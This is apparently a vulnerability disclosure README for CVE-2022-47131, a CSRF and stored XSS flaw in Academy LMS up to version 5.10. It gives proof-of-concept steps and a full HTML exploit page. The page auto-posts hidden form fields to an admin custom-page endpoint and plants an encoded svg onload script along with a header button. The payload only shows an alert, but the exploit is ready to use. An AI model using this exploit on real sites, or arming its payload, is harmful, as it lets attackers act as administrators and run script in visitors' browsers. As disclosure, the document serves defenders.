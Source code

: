# CVE-2022-47131
Academy LMS &lt;= 5.10 CSRF / XSS

# Description
Academy LMS is an application where people can create and advertise courses. The feature of adding a new page is vulnerable to CSRF as there is no token which causes this attack to be avoided. Additionally, this page may be used to load an XSS payload stored.

# Proof of Concept (POC)
The first step to our proof of concept is to authenticate to the platform with administrative user.

After that, just access the page that contains the code for exploiting the vulnerability, see that A new button will be added to the website's home page, redirecting to xss page.

Code used in the exploit:

```html
<html>
   <body>
   <script>history.pushState('', '', '/')</script>
     <form action="https://target.com/admin/custom_page/add" method="POST">
       <input type="hidden" name="page&#95;title" value="CSRF&#32;XSS" />
       <input type="hidden" name="page&#95;content" value="&quot;&gt;&lt;svg&#32;onload&#61;alert&#40;document&#46;domain&#41;&#59;&gt ;" />
       <input type="hidden" name="files" value="" />
       <input type="hidden" name="button&#95;title" value="CSRF&#32;XSS" />
       <input type="hidden" name="button&#95;position" value="header" />
       <input type="hidden" name="page&#95;url" value="xss" />
       <input type="submit" value="Submit request" />
     </form>
   </body>
</html>
```
